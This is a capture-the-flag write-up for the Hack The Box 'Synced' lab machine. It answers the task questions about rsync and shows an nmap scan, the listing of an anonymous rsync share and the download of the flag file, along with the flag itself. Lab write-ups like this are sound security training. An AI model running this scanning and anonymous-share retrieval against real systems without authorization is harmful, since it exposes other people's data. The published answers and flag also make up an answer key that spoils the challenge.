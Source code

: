 # Synced

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 0

## Solution

#### 1. What is the default port for rsync?

> 873

#### 2. How many TCP ports are open on the remote host?

```sh
$ nmap -A -T4 10.129.189.21
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 12:06 CET
Nmap scan report for 10.129.189.21
Host is up (0.031s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.47 seconds
```

> 1

#### 3. What is the protocol version used by rsync on the remote machine?

> 31

#### 4. What is the most common command name on Linux to interact with rsync?

> rsync

#### 5. What credentials do you have to pass to rsync in order to use anonymous authentication? anonymous:anonymous, anonymous, None, rsync:rsync

> None

#### 6. What is the option to only list shares and files on rsync? (No need to include the leading -- characters)

> list-only

#### Submit root flag

```sh
$ rsync --list-only 10.129.189.21::
public         	Anonymous Share
$ rsync --list-only 10.129.189.21::public
drwxr-xr-x        4096 2022/10/25 00:02:23 .
-rw-r--r--          33 2022/10/24 23:32:03 flag.txt
$ rsync 10.129.189.21::public/flag.txt flag.txt   
$ cat flag.txt 
72eaf5344ebb84908ae543a719830519
```

## Final Flag

> 72eaf5344ebb84908ae543a719830519

*Created by [bu19akov](https://github.com/bu19akov)*